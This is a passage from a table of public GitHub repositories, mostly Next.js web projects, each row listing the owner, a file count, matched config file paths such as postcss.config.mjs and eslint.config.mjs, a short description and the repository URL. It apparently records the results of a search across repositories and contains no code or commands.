| 264 | Sawjal-sikder/faceAi-front-end | Sawjal-sikder | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Sawjal-sikder/faceAi-front-end |
| 265 | SanjayaPrasadRajapaksha/E-Commerce | SanjayaPrasadRajapaksha | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SanjayaPrasadRajapaksha/E-Commerce |
| 266 | Rahulkumarhavit/multi-tenant-architecture | Rahulkumarhavit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Rahulkumarhavit/multi-tenant-architecture |
| 267 | Mohsin-Javed48/connectors-nextJs | Mohsin-Javed48 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Mohsin-Javed48/connectors-nextJs |
| 268 | Axxi3/hennery | Axxi3 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Axxi3/hennery |
| 269 | UzairAhmedDahraj/clickup-nextjs-demo | UzairAhmedDahraj | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/UzairAhmedDahraj/clickup-nextjs-demo |
| 270 | Mike-flowbiz/Flowbiz-backend | Mike-flowbiz | User | 0 | 0 | 1 | postcss.config.mjs | Backend API for FlowBiz – Node.js, PostgreSQL, JWT, PDF service | https://github.com/Mike-flowbiz/Flowbiz-backend |
| 271 | phillipshepard1/internal-re-crm | phillipshepard1 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/phillipshepard1/internal-re-crm |
| 272 | mahadi-zulfiker/mz-events-frontend | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | A modern, responsive, and feature-rich frontend for the Events & Activities Platform, built with Next.js 14 and Tailwind CSS. This application provides a seamless experience for users to discover events, hosts to manage their listings, and admins to oversee the platform. | https://github.com/mahadi-zulfiker/mz-events-frontend |
| 273 | fareed-aslam/capitalkv | fareed-aslam | User | 0 | 0 | 1 | CapitalKV-AI-master/frontend/postcss.config.mjs |  | https://github.com/fareed-aslam/capitalkv |
| 274 | TimothyBabatu13/Stampchain | TimothyBabatu13 | User | 0 | 0 | 1 | stamp-chain/postcss.config.mjs |  | https://github.com/TimothyBabatu13/Stampchain |
| 275 | iamanaskhan10/my-portfolio-nextjs | iamanaskhan10 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/iamanaskhan10/my-portfolio-nextjs |
| 276 | MatiasCuadra98/ai-excel | MatiasCuadra98 | User | 0 | 0 | 1 | apps/frontend/postcss.config.mjs |  | https://github.com/MatiasCuadra98/ai-excel |
| 277 | manuel-spec/another-portfolio | manuel-spec | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/manuel-spec/another-portfolio |
| 278 | kasunwathsala/Nextjs-Protfolio | kasunwathsala | User | 0 | 0 | 1 | postcss.config.mjs | A vibrant, modern, and fully responsive portfolio website built with Next.js 14, TypeScript, and Tailwind CSS. Features stunning gradient designs, smooth animations, and a colorful UI that showcases your projects and skills in an eye-catching way. | https://github.com/kasunwathsala/Nextjs-Protfolio |
| 279 | shayanwd/vts-nextjs | shayanwd | User | 0 | 0 | 2 | postcss.config.mjs \| eslint.config.mjs |  | https://github.com/shayanwd/vts-nextjs |
| 280 | JudeTejada/reactly | JudeTejada | User | 0 | 0 | 1 | apps/web/postcss.config.mjs |  | https://github.com/JudeTejada/reactly |
| 281 | fyunusa/video-tool | fyunusa | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/fyunusa/video-tool |
| 282 | TranDoanKhoe/Velvere | TranDoanKhoe | User | 0 | 0 | 5 | src/components_bonus/my-tab/postcss.config.mjs \| src/components_bonus/my-app/postcss.config.mjs \| src/components_bonus/my-select/postcss.config.mjs \| src/components_bonus/my-button/postcss.config.mjs \| src/components_bonus/my-calendar/postcss.config.mjs |  | https://github.com/TranDoanKhoe/Velvere |
| 283 | cywasay/leaders | cywasay | User | 0 | 0 | 1 | leaders-admin/postcss.config.mjs |  | https://github.com/cywasay/leaders |
| 284 | TimothyBabatu13/TokenMind | TimothyBabatu13 | User | 0 | 0 | 1 | token-mind/postcss.config.mjs | Smart AI brain for tokens | https://github.com/TimothyBabatu13/TokenMind |
| 285 | shani-techv1/source-app-v2 | shani-techv1 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/shani-techv1/source-app-v2 |
| 286 | Mfahadk99/syssel-web-internal | Mfahadk99 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Mfahadk99/syssel-web-internal |
| 287 | Nathanim1919/time-lens | Nathanim1919 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Nathanim1919/time-lens |
| 288 | addis-ale/wetruck-shipper | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/wetruck-shipper |
| 289 | Romicha935/image-gallery | Romicha935 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Romicha935/image-gallery |
| 290 | Ali-Hamas/Todo-App | Ali-Hamas | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/Ali-Hamas/Todo-App |
| 291 | MohamedH1000/philadelphia_university | MohamedH1000 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MohamedH1000/philadelphia_university |
| 292 | saifullah-max/surfchem | saifullah-max | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/saifullah-max/surfchem |
| 293 | ahnaafarafee/bionic-seven | ahnaafarafee | User | 0 | 0 | 2 | postcss.config.mjs \| eslint.config.mjs | Official website of Bionic 7 - Biomedical Engineering batch 7 of Islamic University | https://github.com/ahnaafarafee/bionic-seven |
| 294 | malirazaansari/Protfolio_project | malirazaansari | User | 0 | 0 | 1 | postcss.config.mjs | My Personal Protfolio | https://github.com/malirazaansari/Protfolio_project |
| 295 | ayanmal1k/DragoPump | ayanmal1k | User | 0 | 0 | 1 | postcss.config.mjs | Solana token Site | https://github.com/ayanmal1k/DragoPump |
| 296 | Shumaim-Naseer-Kiyani/framer_project | Shumaim-Naseer-Kiyani | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Shumaim-Naseer-Kiyani/framer_project |
| 297 | prosigns/dex-data-aggregation | prosigns | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/prosigns/dex-data-aggregation |
| 298 | MrSohaibAhmed/interview-assessment | MrSohaibAhmed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MrSohaibAhmed/interview-assessment |
| 299 | roma2023/Snoonu | roma2023 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/roma2023/Snoonu |
| 300 | Mohsin-Javed48/nextjs-witd-oasis | Mohsin-Javed48 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Mohsin-Javed48/nextjs-witd-oasis |
| 301 | kasunwathsala/Caramel-Pudding-web | kasunwathsala | User | 0 | 0 | 1 | postcss.config.mjs | A premium e-commerce platform for caramel pudding sales built with Next.js and shadcn/ui.  Features a full shopping experience with product catalog, shopping cart, checkout, and responsive  design. Ready for payment integration and scaling with your own database backend. | https://github.com/kasunwathsala/Caramel-Pudding-web |
| 302 | mahadi-zulfiker/crm | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | A full-stack, role-based Recruitment Management System designed to streamline hiring workflows for organizations and HR teams. | https://github.com/mahadi-zulfiker/crm |
| 303 | humayun506034/ReviewHub-Client | humayun506034 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/humayun506034/ReviewHub-Client |
| 304 | brianonbased-dev/BaseAppShop | brianonbased-dev | User | 0 | 0 | 1 | postcss.config.mjs | Brian Shopify store for Base App | https://github.com/brianonbased-dev/BaseAppShop |
| 305 | sanjay10985/lead-generation-landing-page | sanjay10985 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sanjay10985/lead-generation-landing-page |
| 306 | Rahulkumarhavit/finance-advisor | Rahulkumarhavit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Rahulkumarhavit/finance-advisor |
| 307 | ayanmal1k/Sol-Market | ayanmal1k | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ayanmal1k/Sol-Market |
| 308 | Mohsin-Javed48/dresscode-nextjs | Mohsin-Javed48 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Mohsin-Javed48/dresscode-nextjs |
| 309 | Hriday-paul/anyjob-wellcome | Hriday-paul | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Hriday-paul/anyjob-wellcome |
| 310 | a-belard/rayyan | a-belard | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/a-belard/rayyan |
| 311 | kasunwathsala/Service-marketplace | kasunwathsala | User | 0 | 0 | 1 | navbar-vite (3)/postcss.config.mjs |  A comprehensive full-stack web application that connects customers with  service providers across multiple categories including one-day services,  contract-based work, and part-time opportunities. | https://github.com/kasunwathsala/Service-marketplace |
| 312 | kasunwathsala/saloon-booking-system | kasunwathsala | User | 0 | 0 | 1 | salon-booking-system/postcss.config.mjs | A modern, responsive salon booking website built with Next.js and React. This comprehensive beauty salon management system features service listings, stylist profiles, multi-step appointment booking, customer testimonials, and contact management. | https://github.com/kasunwathsala/saloon-booking-system |
| 313 | Nathanim1919/becoming | Nathanim1919 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Nathanim1919/becoming |
| 314 | Adithyahewage/portfolio_website | Adithyahewage | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Adithyahewage/portfolio_website |
| 315 | Ali-Hamas/Website-Todo | Ali-Hamas | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/Ali-Hamas/Website-Todo |
| 316 | MohamedH1000/Mersal | MohamedH1000 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MohamedH1000/Mersal |
| 317 | MohamedH1000/cruise | MohamedH1000 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MohamedH1000/cruise |
| 318 | kasunwathsala/portfolio-2026 | kasunwathsala | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/kasunwathsala/portfolio-2026 |
| 319 | mahadi-zulfiker/SpaceZee | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live website | https://github.com/mahadi-zulfiker/SpaceZee |
| 320 | mahadi-zulfiker/REPLIQ-Limited-Task | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live Link | https://github.com/mahadi-zulfiker/REPLIQ-Limited-Task |
| 321 | ahmadraza382/E-commerce-website | ahmadraza382 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmadraza382/E-commerce-website |
| 322 | Rahulkumarhavit/carmarket-place | Rahulkumarhavit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Rahulkumarhavit/carmarket-place |
| 323 | Rahulkumarhavit/Nextjs-productivity | Rahulkumarhavit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Rahulkumarhavit/Nextjs-productivity |
| 324 | tanushka1726/react_next | tanushka1726 | User | 0 | 0 | 1 | postcss.config.mjs | Reader Website is a modern, responsive web application built using Next.js and TypeScript, designed to showcase and explore books with a smooth user experience. It features dynamic routing, reusable components, and is fully deployed for public access. Ideal for readers, book enthusiasts, or content platforms looking for an interactive reading. | https://github.com/tanushka1726/react_next |
| 325 | Sameer447/O2_app | Sameer447 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Sameer447/O2_app |
| 326 | dmytro-chushko/portfolio-dev-dc | dmytro-chushko | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/dmytro-chushko/portfolio-dev-dc |
| 327 | Axxi3/ladyfoxx | Axxi3 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Axxi3/ladyfoxx |
| 328 | Vladyslav0060/autopartner | Vladyslav0060 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Vladyslav0060/autopartner |
| 329 | PremShakti/jewelry-kiosk | PremShakti | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/PremShakti/jewelry-kiosk |
| 330 | theeurbanlegend/Hackathon-Submission | theeurbanlegend | User | 0 | 0 | 1 | client/postcss.config.mjs |  | https://github.com/theeurbanlegend/Hackathon-Submission |
| 331 | SouravDn-p/NextManager-YourInventory-Manager | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | Next.js Inventory Manager A full-stack Inventory Management System built with Next.js 14 App Router, Tailwind CSS, MongoDB, and Redux Toolkit (RTK Query). This app supports both social authentication via NextAuth.js (Google, GitHub) and traditional email/password login using JWT. | https://github.com/SouravDn-p/NextManager-YourInventory-Manager |
| 332 | abdullah2310ishaq/zeebuddy | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/zeebuddy |
| 333 | JudeTejada/project-monitoring | JudeTejada | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/JudeTejada/project-monitoring |
| 334 | salwaaliakbar/my-portfolio | salwaaliakbar | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/salwaaliakbar/my-portfolio |
| 335 | abdullah2310ishaq/company | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/company |
| 336 | wahab3913/kalibar-manger1 | wahab3913 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wahab3913/kalibar-manger1 |
| 337 | ninjadevhub/Flood-Risk-Mapper | ninjadevhub | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ninjadevhub/Flood-Risk-Mapper |
| 338 | trobits/trobits-frontend | trobits | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/trobits/trobits-frontend |
| 339 | Shumaim-Naseer-Kiyani/ai_landing_page | Shumaim-Naseer-Kiyani | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Shumaim-Naseer-Kiyani/ai_landing_page |
| 340 | ChiraniSiriwardhana/Portfolio | ChiraniSiriwardhana | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ChiraniSiriwardhana/Portfolio |
| 341 | carrantal/frontend | carrantal | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/carrantal/frontend |
| 342 | Nathanim1919/atlas | Nathanim1919 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Nathanim1919/atlas |
| 343 | asadullah-kazmi/syncspace | asadullah-kazmi | User | 0 | 0 | 1 | frontend/postcss.config.mjs | A real-time collaboration platform built with Next.js, WebSockets, and CRDTs (Yjs), enabling multi-user document editing with conflict-free state synchronization and low-latency updates. | https://github.com/asadullah-kazmi/syncspace |
| 344 | usman-174/form-pdf | usman-174 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/usman-174/form-pdf |
| 345 | evenwalser/FinalPaperclipPro | evenwalser | User | 0 | 0 | 1 | postcss.config.mjs | For Hetal to move to Paperclip Vercel | https://github.com/evenwalser/FinalPaperclipPro |
| 346 | huzzy12/portfolio | huzzy12 | User | 0 | 0 | 1 | postcss.config.mjs | My portfolio website | https://github.com/huzzy12/portfolio |
| 347 | Sameer447/my-app | Sameer447 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Sameer447/my-app |
| 348 | wahab3913/kalibar | wahab3913 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wahab3913/kalibar |
| 349 | sybotstackdev/Portfolio | sybotstackdev | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sybotstackdev/Portfolio |
| 350 | NEERAJ131124/pisync-fe | NEERAJ131124 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/NEERAJ131124/pisync-fe |
| 351 | RazaAkmal/frontend-test | RazaAkmal | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/RazaAkmal/frontend-test |
| 352 | kasunwathsala/Loomistore | kasunwathsala | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/kasunwathsala/Loomistore |
| 353 | um8r/bridge-master-fyp | um8r | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/um8r/bridge-master-fyp |
| 354 | RathodDeven/danz-web | RathodDeven | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/RathodDeven/danz-web |
| 355 | Gowreesh-VT/OnlyFoundersV2 | Gowreesh-VT | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Gowreesh-VT/OnlyFoundersV2 |
| 356 | garrycha/test-job | garrycha | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/garrycha/test-job |
| 357 | wasi2320/ctk-new | wasi2320 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wasi2320/ctk-new |
| 358 | sayyamButt317/hire-with-tess-frontend | sayyamButt317 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sayyamButt317/hire-with-tess-frontend |
| 359 | Al-amin07/bigso_app | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/bigso_app |
| 360 | shermuhammad786/gs-hackathon | shermuhammad786 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/shermuhammad786/gs-hackathon |
| 361 | smit455/big_bazaar-store | smit455 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/smit455/big_bazaar-store |
| 362 | jbaze/borec-basket-claude | jbaze | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/jbaze/borec-basket-claude |
| 363 | Al-amin07/project-9-client | Al-amin07 | User | 0 | 0 | 3 | postcss.config.mjs \| tailwind.config.js \| eslint.config.mjs |  | https://github.com/Al-amin07/project-9-client |
| 364 | farihulrouf/orcx_fe | farihulrouf | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/farihulrouf/orcx_fe |
| 365 | wahab3913/kalibar-m2 | wahab3913 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wahab3913/kalibar-m2 |
| 366 | finom/realtime-kanban | finom | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/finom/realtime-kanban |
| 367 | rejoan121615/heritage-trial-overlay | rejoan121615 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/rejoan121615/heritage-trial-overlay |
| 368 | Ruwanima/Portfolio | Ruwanima | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Ruwanima/Portfolio |
| 369 | Lithira-Sasmitha/social_app | Lithira-Sasmitha | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Lithira-Sasmitha/social_app |
| 370 | coderkhalide/selorax-canvas | coderkhalide | User | 0 | 0 | 1 | apps/canvas-v2/postcss.config.mjs |  | https://github.com/coderkhalide/selorax-canvas |
| 371 | Button-20/juzbuild-background-processor | Button-20 | User | 0 | 0 | 1 | templates/homely/postcss.config.mjs |  | https://github.com/Button-20/juzbuild-background-processor |
| 372 | Muhammadfaizanjanjua109/frammerMotion | Muhammadfaizanjanjua109 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Muhammadfaizanjanjua109/frammerMotion |
| 373 | AHAdd40451/task-sheet | AHAdd40451 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/AHAdd40451/task-sheet |
| 374 | zaheerahmad92001/pettro | zaheerahmad92001 | User | 0 | 0 | 1 | postcss.config.mjs | pettro for petLovers | https://github.com/zaheerahmad92001/pettro |
| 375 | MahadA456/mahad-portfolio | MahadA456 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MahadA456/mahad-portfolio |
| 376 | Joyeta-Mondal/Sparktech-Agency-assessment | Joyeta-Mondal | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Joyeta-Mondal/Sparktech-Agency-assessment |
| 377 | webprogramminghack/b3-practice-31 | webprogramminghack | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/webprogramminghack/b3-practice-31 |
| 378 | Adithyahewage/Salon-demo | Adithyahewage | User | 0 | 0 | 1 | postcss.config.mjs | Demo project for a salon client | https://github.com/Adithyahewage/Salon-demo |
| 379 | akashstwt/eth-global-cryptowiki | akashstwt | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/akashstwt/eth-global-cryptowiki |
| 380 | Gowreesh-VT/AWS-Web-Dev | Gowreesh-VT | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Gowreesh-VT/AWS-Web-Dev |
| 381 | dynamicdreamz1/startup-voyager | dynamicdreamz1 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/dynamicdreamz1/startup-voyager |
| 382 | farhanmasood-se/live-docs | farhanmasood-se | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/farhanmasood-se/live-docs |
| 383 | dmytro-chushko/form-editor | dmytro-chushko | User | 0 | 0 | 1 | postcss.config.mjs | A Next.js application for building, publishing, and collecting submissions for custom forms. It includes an authenticated admin area with a drag-and-drop editor and a public-facing form experience. | https://github.com/dmytro-chushko/form-editor |
| 384 | Sameer447/launchpad-incubator-backend | Sameer447 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Sameer447/launchpad-incubator-backend |
| 385 | SouravDn-p/Advance-HealthCare-Next-Level-of-Smarter-Better-Health | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | Advanced Healthcare Service   \|\| A complete all-in-one digital healthcare platform offering online consultations, secure health records, e-prescriptions, smart symptom evaluation, and personalized patient care — all from one seamless web experience. | https://github.com/SouravDn-p/Advance-HealthCare-Next-Level-of-Smarter-Better-Health |
| 386 | SouravDn-p/Scribe-AI-Powered-Note-Taking-App | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SouravDn-p/Scribe-AI-Powered-Note-Taking-App |
| 387 | SouravDn-p/multi-form-transaction | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | A Short Transaction Demo Platform | https://github.com/SouravDn-p/multi-form-transaction |
| 388 | SouravDn-p/authjs-next-authentications | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SouravDn-p/authjs-next-authentications |
| 389 | abdullah2310ishaq/qudrat | abdullah2310ishaq | User | 0 | 0 | 1 | admin-panel/postcss.config.mjs |  | https://github.com/abdullah2310ishaq/qudrat |
| 390 | SouravDn-p/PathFinder---Smarter-Admissions-Simpler-Bookings | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | PathFinder – Smarter Admissions, Simpler Bookings  A full-stack Next.js app for college admission bookings. Features include college search, admission forms, reviews, profile management, and JWT-based authentication. | https://github.com/SouravDn-p/PathFinder---Smarter-Admissions-Simpler-Bookings |
| 391 | abdullah2310ishaq/resposive-doctor-websote | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/resposive-doctor-websote |
| 392 | abdullah2310ishaq/ecommerce_jewellery_store | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/ecommerce_jewellery_store |
| 393 | Al-amin07/pioneer | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/pioneer |
| 394 | smit455/big_bazaar-admin | smit455 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/smit455/big_bazaar-admin |
| 395 | smit455/Task_manager | smit455 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/smit455/Task_manager |
| 396 | dhruvmalik007/Stratavault | dhruvmalik007 | User | 0 | 0 | 2 | apps/web/postcss.config.mjs \| packages/ui/postcss.config.mjs | application for the Ethglobal Hackmoney 2026 submission: Building the Agent experience platform to invest effortlessly in Prediction markets | https://github.com/dhruvmalik007/Stratavault |
| 397 | finom/blok | finom | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/finom/blok |
| 398 | rejoan121615/website-generator | rejoan121615 | User | 0 | 0 | 1 | packages/dashboard/postcss.config.mjs |  | https://github.com/rejoan121615/website-generator |
| 399 | abdullah2310ishaq/personal-portfolio | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/personal-portfolio |
| 400 | Joyeta-Mondal/arklab-ai-assessment | Joyeta-Mondal | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Joyeta-Mondal/arklab-ai-assessment |
| 401 | Adithyahewage/Gym-demo | Adithyahewage | User | 0 | 0 | 1 | postcss.config.mjs | Demo project for gym client | https://github.com/Adithyahewage/Gym-demo |
| 402 | Gowreesh-VT/VITopoly | Gowreesh-VT | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Gowreesh-VT/VITopoly |
| 403 | farhanmasood-se/slack-clone | farhanmasood-se | User | 0 | 0 | 1 | postcss.config.mjs | Collaborate with your team using real-time messaging, rich text editing, and emoji support in this Slack-like app built with Next.js, Convex, and Shadcn UI. | https://github.com/farhanmasood-se/slack-clone |
| 404 | Socheema/clot | Socheema | User | 0 | 0 | 1 | postcss.config.mjs |  Shop the best fashion products with Clot | https://github.com/Socheema/clot |
| 405 | Shumaim-Naseer-Kiyani/project1 | Shumaim-Naseer-Kiyani | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Shumaim-Naseer-Kiyani/project1 |
| 406 | Muhammad-Hammad-Abbasi/next.js-hackathon | Muhammad-Hammad-Abbasi | User | 0 | 0 | 1 | postcss.config.mjs | hackathon of figma web design. | https://github.com/Muhammad-Hammad-Abbasi/next.js-hackathon |
| 407 | Germs31/small-traslator-ai | Germs31 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Germs31/small-traslator-ai |
| 408 | prudywn/GrowthProject | prudywn | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/prudywn/GrowthProject |
| 409 | FaizaFarooq23/photo-gallery | FaizaFarooq23 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FaizaFarooq23/photo-gallery |
| 410 | dbankston2409/Sober-Deck | dbankston2409 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/dbankston2409/Sober-Deck |
| 411 | mahadi-zulfiker/Nextjs-Prisma-Portfolio-Frontend | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live website | https://github.com/mahadi-zulfiker/Nextjs-Prisma-Portfolio-Frontend |
| 412 | seemab-ahmed/blockdag | seemab-ahmed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/seemab-ahmed/blockdag |
| 413 | abdullah2310ishaq/zee-admin | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/zee-admin |
| 414 | lnbglondoncoin/lnbglondon | lnbglondoncoin | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/lnbglondoncoin/lnbglondon |
| 415 | ahmadraza382/Ferrano | ahmadraza382 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmadraza382/Ferrano |
| 416 | JPChoyon/bikeBotics | JPChoyon | User | 0 | 0 | 2 | postcss.config.mjs \| eslint.config.mjs |  | https://github.com/JPChoyon/bikeBotics |
| 417 | Anas-Ali-3673/caa-interface | Anas-Ali-3673 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Anas-Ali-3673/caa-interface |
| 418 | akashstwt/fleek | akashstwt | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/akashstwt/fleek |
| 419 | wolfstudiosai/havocker | wolfstudiosai | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wolfstudiosai/havocker |
| 420 | mdemong87/theamfisher-assignment | mdemong87 | User | 0 | 0 | 2 | postcss.config.mjs \| eslint.config.mjs |  | https://github.com/mdemong87/theamfisher-assignment |
| 421 | eftakhar-491/L-2_B-6-Assignment-4-frontend | eftakhar-491 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/eftakhar-491/L-2_B-6-Assignment-4-frontend |
| 422 | mohsulthana/yc-directory-nextjs | mohsulthana | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mohsulthana/yc-directory-nextjs |
| 423 | deepaksh798/dashboard-second | deepaksh798 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/deepaksh798/dashboard-second |
| 424 | mahadi-zulfiker/Hishabee_Frontend_Task | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live Site | https://github.com/mahadi-zulfiker/Hishabee_Frontend_Task |
| 425 | Ibraz94/inventory_management_system | Ibraz94 | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/Ibraz94/inventory_management_system |
| 426 | mdnuruzzamannirob/your-capture-awards | mdnuruzzamannirob | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mdnuruzzamannirob/your-capture-awards |
| 427 | Germs31/expense-tracking | Germs31 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Germs31/expense-tracking |
| 428 | Adharshms/builder | Adharshms | User | 0 | 0 | 2 | postcss.config.mjs \| eslint.config.mjs |  | https://github.com/Adharshms/builder |
| 429 | Nathanim1919/Avaitor-game | Nathanim1919 | User | 0 | 0 | 1 | client/postcss.config.mjs |  | https://github.com/Nathanim1919/Avaitor-game |
| 430 | saifullah-max/Navo-1 | saifullah-max | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/saifullah-max/Navo-1 |
| 431 | kanchana404/web | kanchana404 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/kanchana404/web |
| 432 | kanchana404/kaidenz-clothing | kanchana404 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/kanchana404/kaidenz-clothing |
| 433 | Muhammad-Hammad-Abbasi/persnol_portfolio_2 | Muhammad-Hammad-Abbasi | User | 0 | 0 | 1 | postcss.config.mjs | persnal_portfolio | https://github.com/Muhammad-Hammad-Abbasi/persnol_portfolio_2 |
